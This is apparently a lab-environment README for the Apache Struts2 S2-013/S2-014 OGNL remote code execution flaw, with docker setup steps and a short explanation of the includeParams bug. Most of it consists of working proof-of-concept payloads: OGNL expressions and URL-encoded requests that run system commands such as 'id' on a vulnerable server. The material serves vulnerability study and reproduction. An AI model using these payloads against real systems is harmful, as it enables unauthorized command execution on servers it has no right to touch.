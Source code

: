 # S2-013/S2-014 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.1

Details:

 - http://struts.apache.org/docs/s2-013.html
 - http://struts.apache.org/docs/s2-014.html

## Setup

```
docker compose build
docker compose up -d
```

## Reference

The Struts2's tag, `<s:a>` and `<s:url>`, provide an includeParams attribute.The main scope of that attribute is to understand whether includes http request parameter or not.

The allowed values of includeParams are:

1. none - include no parameters in the URL (default)
2. get - include only GET parameters in the URL
3. all - include both GET and POST parameters in the URL

When `includeParams=all`, the GET and POST parameters of this request are placed on the GET parameter of the URL. During this process, the parameters will be parsed by OGNL expressions. It cause the command execution.

Remote Code Execution POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

Example:`http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

![](1.png)

S2-014 is a correction to S2-013. Because when S2-013 is fixed, the execution method of OGNL expression such as ${ognl_exp} is ignored, and S2-014 is an enhanced patch for it.

```
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```
